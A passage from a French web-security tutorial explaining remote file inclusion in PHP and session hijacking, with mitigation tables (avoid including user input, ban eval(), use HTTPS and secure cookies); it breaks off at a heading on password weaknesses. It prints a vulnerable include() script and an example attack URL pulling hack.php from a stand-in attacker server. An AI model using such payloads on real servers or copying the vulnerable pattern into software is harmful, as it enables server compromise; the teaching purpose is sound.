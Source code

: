Voici l’exemple d’un formulaire pour un menu :
```html
<form method="get" action=”menu.php”>
   <select name="page">
      <option value="page1.php">menu1</option>
      <option value="page2.php">menu2</option>
   </select>
   <input type="submit">
</form>
```
La page `menu.php` contient le code permettant de réceptionner les valeurs par le formulaire de la page index.html afin d’inclure la page demandée :
```php
<?php
   $menu = "";
   if ($_GET[’page’]  == ’page1’){ 
      $menu = $_GET[’page’]; 
    } 
    if ($_GET[’page’]  == ’page2’){ 
      $menu = $_GET[’page’]; 
    } 
   include($menu); 
?>
```
L’attaquant utilise l’injection suivante et compromet le serveur :

`http://exemple.com/menu.php?page=http://ServeurPirate.fr/hack.php`
{% bs-table %}

| **N°** | **Méthode**                                         | **Description**                                                                                                       |
|--------|-----------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------|
| 1      | Bonne utilisation des fonctions d’inclusion de code | Les fonctions d’inclusion de code doivent être utilisées à bon escient et ne jamais inclure des entrées utilisateurs. |
| 2      | Bannir la fonction eval()                           | La fonction eval() ne doit jamais être à portée d’une entrée utilisateur.                                             |
{% endbs-table %}
## 2 - Violation de gestion d’authentification et de session
###Vol de session
Pour comprendre comment fonctionne le vol de session et s’en protéger, il est nécessaire de faire un rappel sur le fonctionnement d’une session dans une application web :

- À l’aide d’un formulaire sur le site web, l’utilisateur s’authentifie avec un identifiant et un mot de passe.
- Les informations sont soumises à l’application qui crée un identifiant de session, qui suivra l’utilisateur tout au long de sa navigation sur le site web. L’identifiant est généralement stocké dans un cookie et peut être supprimé une fois que l’utilisateur se déconnecte manuellement du site par un bouton Déconnexion mis à disposition ou par un dépassement de durée de vie de la session.
{% bs-table %}

| **N°** | **Méthode**        | **Description**                                                                                                                                                                                                                                                                                                                                                                          |
|--------|--------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1      | Ajout HTTPS        | Un moyen efficace est l’utilisation exclusive du protocole HTTPS sur un serveur web. Le protocole se démocratise et la plupart des hébergeurs le proposent. <br>La Linux Foundation propose des certificats reconnus et gratuits, disponibles à cette adresse : https://letsencrypt.org/.                                                                                                |
| 2      | Flag secure cookie | Activer sur le serveur web la fonctionnalité flag secure cookie, déjà introduite dans le chapitre précédent (cf. Panorama de la sécurité web - La sécurité des navigateurs et serveurs web). Cette fonctionnalité permet de transmettre les identifiants de session au serveur seulement sous un protocole sécurisé (HTTPS), ce qui permet de réduire les attaques de l’homme du milieu. |
{% endbs-table %}
### Faiblesses des mots de passe
{% bs-table %}
